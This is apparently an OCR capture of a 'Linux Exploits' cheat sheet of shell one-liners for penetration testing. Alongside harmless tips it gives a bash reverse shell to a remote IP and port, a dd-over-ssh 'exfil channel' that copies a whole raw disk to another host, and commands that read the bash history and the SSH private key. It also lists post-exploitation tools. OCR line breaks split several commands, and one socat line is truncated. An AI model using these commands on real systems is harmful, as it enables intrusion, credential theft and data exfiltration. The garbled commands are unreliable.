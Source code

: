 # Linux Exploits

## Commands

Redirect IPv6 listening TCP port to
localhost IPv4.
```shell
IPV6ADDR=fc00:660:0:1::46
&& PORT=110 && socat
TCP-LISTEN:$PORT,reuseaddr,
fork TCP6:[$IPV6ADDR]:$POR
```

Find Juicy Stuff in the File System
```shell
 find /PATH/TO/DIRECTORY
-name "FILE-FILTER" -type
f -exec grep -i "STRING"
{} \; -print 2>/dev/null
```

Find public ip
```shell
curl -4 icanhazip.com
```

Make output easier to read
```shell
alias ccat='pygmentize
-O bg=dark,style=colorful'
```

Encrypted Exfil channel
```shell
dd if=/dev/rdisk0s1s2
bs=65536 conv=noerror,sync
| ssh -C user@10.10.10.10
"cat >/tmp/image.dd"
```

Check service every second
```shell
while (true); do nc -vv
-z -w3 10.10.10.10 80 >
/dev/null && echo -e
"Service is up"; sleep 1;
done
```

Website Cloner
```shell
wget -r -nH $URL
```

Type “gah” after you forgot to use sudo, and it’ll sudo your most recent command.
```shell
alias gah='sudo $(history
-p \!\!)'
```

Create a reverse shell back to a
given IP address and port.

```shell
bash -i >&
/dev/tcp/10.10.10.10/8080
0>&1
```

Encode or decode base64
information.
```shell
echo 'Hello, World!' |
base64

echo
'SGVsbG8sIFdvcmxkIQo=' |
base64 -d
```

## Helpful Commands

```shell
cat ~/.bash_history
cat ~/.ssh/config
cat ~/.ssh/id_rsa
cat ~/.ssh/known_hosts
```

## Linux Post Exploitation Tools

* BusyBox
* NMAP
* Responder.py
* tcpdump 
* http://www.monkey.org/~dugsong/dsniff/
* http://www.dest-unreach.org/socat/
* https://www.gnu.org/software/screen/
* http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
* http://tgcd.sourceforge.net/

## Resources
* [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)